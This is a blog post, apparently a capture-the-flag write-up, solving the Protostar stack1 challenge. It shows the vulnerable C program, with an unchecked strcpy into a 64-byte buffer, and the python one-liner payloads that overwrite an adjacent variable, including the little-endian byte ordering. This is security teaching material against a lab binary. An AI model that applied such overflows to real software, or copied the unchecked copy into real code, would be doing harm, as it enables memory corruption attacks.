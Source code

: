 ```yaml
---
layout: post
title: "More Stack Overflows: protostar stack1"
date: 2018-09-09 12:35:12 -700
categories: jekyll update
---
```

The next stack based overflow challenge on protostar involves setting a variable equal to a specific value.
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
As we can see, the goal of this level is to set the 'modified' variable equal to the value 0x61626364, and it should output a message that we have completed the challenge. 

Note that the input you supply is actually through the command line. It would be supplied like this, where foobar is whatever your input is.

$./stack1 foobar

Let's solve this.

$./stack1 $(python -c 'print "A"*65')

Try again, you got 0x00000041

$

We know the buffer is size 64, and if we look at the source code, we see that the variable we are attempting to modify is right next to the buffer. It makes perfect sense that putting one character more than the size of the buffer would set the variable equal to 0x41, which is the ascii value of "A".

what does this mean?
It means we need to fill the buffer with 64 characters (I will be using "A", but you could do it with really any) and then we need to set the variable equal to 0x61626364. That should be easy!

For the variable, we could either use python (or another language like perl) to set the variable, or we could use ascii characters, if they are printable. Because this is a rare case of needing to set a variable to a number with corresponding ascii characters in the printable range, let's do this.
We can look up the ascii table and find that 
	0x61 corresponds to "a"
	0x62 corresponds to "b"
	0x63 corresponds to "c"
	0x64 corresponds to "d"

$./stack1 $(python -c 'print "A"*64 + "abcd"')

Try again, you got 0x64636261

$

Our number looks backwards! What is going on here? If you notice, the first character we put into it was "a", which is 0x61. But we see that is at the end of our number, when we need it at the beginning. 

This is because of something called Little Endian byte order, which essentially means that the first byte we put in will be the least significant byte.

This also means, in terms of solving this challenge, we need to put our ascii characters backwards. 

$./stack1 $(python -c 'print "A"*64 + "dcba"')

you have correctly got the variable to the right value

$

Cool, now we know that we can set variables to be equal to specific values!